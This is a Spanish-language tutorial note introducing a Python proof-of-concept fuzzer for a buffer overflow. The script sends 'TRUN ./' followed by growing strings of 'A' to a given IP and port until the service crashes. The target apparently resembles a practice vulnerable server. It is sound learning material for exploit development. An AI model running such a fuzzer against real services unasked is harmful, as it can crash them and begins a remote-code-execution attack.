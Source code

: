 tags: #programacion #script #python

---
Se comienza con el script POC (proof of concept) que se usara para demostrar que el programa es vulnerable a buffer overflow y ademas nos servira como fuzzer con el que encontrar el punto donde desborda el programa.

Instalar las librerías de pwn
```bash
sudo apt-get install python3-pwntools
```

Para comenzar un script en **Python** para explotar un buffer overflow y obtener el **POC** deberemos introducir la cabecera que especifica el tipo de script y las librerías que vamos a utilizar

```python
#!/usr.bin/python

import socket, sys
```

Con esto ya lo tenemos listo para comenzar a construir nuestro script POC

```python
#!/usr/bin/python3
from pwn import *
import socket, sys

if len(sys.argv) < 3:
    print ("\n [!] Uso: python " + sys.argv[0] + " <ip-adderss> <rport>\n")
    sys.exit(0)

#variables globales
ip_address = sys.argv[1]
rport = sys.argv[2]

if __name__ == '__main__':
    count = 200
    increment = 200
    buffer = "A"
    prefix = "TRUN ./"
    logger = log.progress('Data')
    try:
        while count < 10000000:
            logger.status("Enviamos %d" % count)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip_address,int(rport)))
            buffer = "A" * count            
            s.send(bytes(f"{prefix}{buffer}", 'utf-8'))         
            print(s.recv(1024))
            s.close()
            count += increment
    except socket.error as e:
        print (f"\n[!] Error al conectar con el servicio {e}\n")
        sys.exit(1)
    print("\n[+] Fin de programa\n")
    sys.exit(0)
```